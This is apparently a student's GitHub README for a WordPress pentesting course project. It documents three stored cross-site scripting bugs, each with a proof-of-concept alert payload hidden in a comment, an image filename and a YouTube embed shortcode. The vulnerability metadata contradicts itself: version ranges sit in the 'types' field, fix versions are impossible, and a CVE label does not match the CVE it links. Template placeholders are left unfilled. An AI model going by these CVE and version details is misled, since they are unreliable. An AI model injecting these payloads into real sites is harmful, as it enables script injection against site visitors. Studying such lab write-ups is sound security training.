 # Web-Security-Weeks-7-8-Project-WordPress-vs.-Kali
Weeks 7 &amp; 8 Project: WordPress vs. Kali

# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1.3.7-4.4 Authenticated Cross-Site Scripting (XSS) CVE-2016-1564 
  - [ 1] Summary: 
    - Vulnerability types: 3.7-4.4	
    - Tested in version: 4.2
    - Fixed in version: 4.26
  - [1 ] GIF Walkthrough: ![reply](https://user-images.githubusercontent.com/55426354/79058665-d1ece000-7c3e-11ea-992d-961c92d0f2e7.gif)
  - [ 1] Steps to recreate: Post the following XSS code into a comment or post than do->
	 <span>[http://codepath.org//<svg onload=alert('got_you')]</span>
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename CVE-2016-7168 
    - Vulnerability types:
    - Tested in version: 2.5-4.6
    - Fixed in version: 4.2
  - [ ] GIF Walkthrough: ![picture](https://user-images.githubusercontent.com/55426354/79058836-d1eddf80-7c40-11ea-972c-f45bbde089b9.gif)
  - [ ] Steps to recreate:  <ol>
<li>find an image and upload.</li>
  <li>Change the .jpg with the following script hope<img src= picture onerror =alert("picture_got_u")>.jpg</li>
<li>Create new media in library and upload the image.</li>
<li>View attachment page to view the image post.</li>
</ol>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1.4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds CVE-2015-6535 
    - Vulnerability types: 4.0-4.7.2
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![video](https://user-images.githubusercontent.com/55426354/79059136-b2f14c80-7c44-11ea-92db-90ec9597cbcb.gif)
  - [ ] Steps to recreate: Create a new post and embed a link
 <ol>
<li>Insert the malicious YouTube embed shortcode.</li>
  <li>[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]</li>
</ol>
	
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)	
   - [Link 2] https://wpvulndb.com/vulnerabilities/8768
    - [Link 3]https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
   - [Link 4] https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
   - [Link 5] https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
    - [Link 6]https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.